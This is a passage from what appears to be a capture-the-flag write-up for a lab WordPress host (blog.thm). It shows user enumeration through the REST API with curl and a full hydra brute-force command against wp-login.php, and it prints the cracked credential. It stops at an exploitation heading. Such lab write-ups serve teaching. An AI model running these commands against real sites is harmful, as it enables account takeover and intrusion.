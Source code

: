 ```json
    "meta": [],
    "_links": {
      "self": [
        {
          "href": "http://blog.thm/wp-json/wp/v2/users/3"
        }
      ],
      "collection": [
        {
          "href": "http://blog.thm/wp-json/wp/v2/users"
        }
      ]
    }
  }
]
```

Let's grep for `slug`:

```
curl http://blog.thm/wp-json/wp/v2/users -s | jq | grep slug
    "slug": "bjoel",
    "slug": "kwheel",
```


We got two users, what about trying to bruteforce with hydra:

```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=kwheel&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered"
```

![](../images/Pasted%20image%2020250327183359.png)

We got it:

```
kwheel:cutiepie1
```


![](../images/Pasted%20image%2020250328145550.png)


# EXPLOITATION
---

We got the login, we can search for an exploit regarding the `wordpress 5.0` 


![](../images/Pasted%20image%2020250328145750.png)

![](../images/Pasted%20image%2020250328150658.png)
